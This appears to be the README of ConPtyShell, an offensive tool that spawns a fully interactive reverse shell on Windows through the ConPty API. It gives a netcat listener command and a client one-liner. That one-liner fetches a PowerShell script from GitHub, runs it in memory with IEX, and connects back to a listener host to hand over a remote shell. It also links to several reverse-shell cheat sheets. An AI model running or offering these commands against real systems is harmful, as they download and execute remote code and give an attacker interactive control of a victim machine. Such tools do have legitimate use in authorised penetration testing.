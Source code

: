 The introduction of the Pseudo Console (ConPty) in Windows has improved
so much the way Windows handles terminals.

ConPtyShell uses the function
[CreatePseudoConsole()](https://docs.microsoft.com/en-us/windows/console/createpseudoconsole).


This function is available since Windows 10 / Windows Server 2019
version 1809 (build 10.0.17763).

Server Side:

```
  stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

Client Side:

```
  IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

Offline version of the ps1 available at -->
[Invoke-ConPtyShell.ps1](https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1)

## References
- [Reverse Bash Shell One Liner](https://security.stackexchange.com/questions/166643/reverse-bash-shell-one-liner)
- [Pentest Monkey - Cheat Shee Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Spawning a TTY Shell](https://netsec.ws/?p=337)
- [Obtaining a fully interactive shell](https://forum.hackthebox.eu/discussion/142/obtaining-a-fully-interactive-shell)

